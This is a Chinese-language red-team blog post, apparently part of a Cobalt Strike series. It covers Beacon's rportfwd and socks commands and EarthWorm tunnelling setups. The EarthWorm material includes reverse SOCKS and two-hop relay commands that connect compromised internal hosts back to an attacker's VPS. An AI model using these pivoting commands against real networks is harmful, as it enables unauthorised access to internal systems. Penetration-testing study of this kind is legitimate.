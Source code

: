 ```yaml
---
layout:     post
title:    Cobalt Strike系列 7
subtitle:   Cobalt Strike 代理转发隧道等有关内容
date:       2019-09-01
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 渗透测试
    - 红队
    - Cobalt Strike
---
```

# Cobalt Strike系列 7 代理转发隧道等有关内容  

## 简介  
- 端口转发  
- Socks概念  
- Cobalt Strike自带socks  
- EarthWorm搭建隧道  

## 端口转发  
Cobalt Strike中beacon自带了一个端口转发的命令，rportfwd。用法如下：  
```
rportfwd 本机端口 目标ip 目标端口  
```
具体的可以用命令查看帮助。  
```
beacon> help rportfwd
Use: rportfwd [bind port] [forward host] [forward port]
     rportfwd stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port and use Beacon
to relay traffic between the two connections.
```
但是方便归方便，实际上用起来有点慢，远不如其他的成熟的工具。  


##  Socks概念
目前利用网络防火墙将内外网隔离开来，是很常见的方式。这些防火墙系统通常以应用层网关的形式工作在网络之间，提供受控的 TELNET 、 FTP 、 SMTP 等的接入。 SOCKS 提供一个通用框架来使这些协议安全透明地穿过防火墙。  
利用socks技术，可以用来穿透目标内网，进行进一步的内网渗透。  

## Cobalt Strike自带的socks  
右键选择一个目标，中转里面有这个选项，根据配置填好就可以，注意端口通行。  
![cssocks](/img/cssocks.png)  
![cssocks2](/img/cssocks2.png)  
也可以用beacon命令进行配置。  
```
beacon> help socks
Use: socks [stop|port]

Starts a SOCKS4a server on the specified port. This server will relay 
connections through this Beacon. 

Use socks stop to stop the SOCKS4a server and terminate existing connections.

Traffic will not relay while Beacon is asleep. Change the sleep time with the
sleep command to reduce latency.
```
然后配合proxychains等代理工具挂上代理。  

## EarthWorm搭建隧道  
使用ew来作为内网穿透，支持多个平台，稳定，应用广。  
简单构建几个场景来作为演示案例。  
ew的常用参数：  
```
 ./xxx ([-options] [values])*
 options :
 Eg: ./xxx -s ssocksd -h 
 -s 该选项指定你需要使用的功能模块，以下6项内容中选择一项：
  ssocksd , rcsocks , rssocks , 
 lcx_listen , lcx_tran , lcx_slave
 -l 该命令为服务启动开启指定端口
 -d 指定转发或反弹的主机地址
 -e 指定转发或反弹的主机端口
 -f 指定连接或映射的主机地址
 -g 指定连接或映射的主机端口
 -h 打开帮助提示，当与-s参数共同使用时可以看到更详细的内容
 -a 关于
 -v 显示版本 
 -t usectime set the milliseconds for timeout. The default 
 value is 1000 
 ......
```
### 正向代理socks  
适用于目标机器有公网ip的情况，在服务器上部署ew，并且执行：  
```
./ew -s ssocksd -l 1080  
```
开启服务器1080端口，用对应代理工具连接就可以作为正向代理进入对方内网了。  
### 一层反向代理  
适用于机器没有公网IP，但是能访问公网与内网资源。  
VPS执行命令：  
```
ew -s rcsocks -l 1008 -e 888
```
VPS开启1008端口，转发888端口流量。  
服务器端执行命令：  
```
ew -s rssocks -d vps ip -e 888
```
开启socks5服务，反弹到vps的888端口上。   

### 二层转发
一般也不多见，构建情景如下：  
现内网有两台主机分别为A，B。  
其中A可以访问外网，但是不能访问内网资源，与B可以通讯。  
B在内网，可以访问内网资源，但是不能访问外网。   
首先在利用A将ew上传到B上，然后A与外网VPS上也布上ew。
```  
VPS上执行命令：  
ew -s lcx_listen -l 1080 -e 888  
然后在B上开启ew：
ew -s ssocks -l 999
然后在A上开启ew：  
ew -s lcx_slave -d vps ip -e 888 -f B ip -g 999
```
然后自己的电脑通过，访问vps的1080端口就可以使用在B上架的socks5服务器，访问内网资源。  
### 总结
还有一些情况在实际中碰到的不多，就不列举了，工具也不是仅限于文章中的ew等，根据实际情况进行选择。  
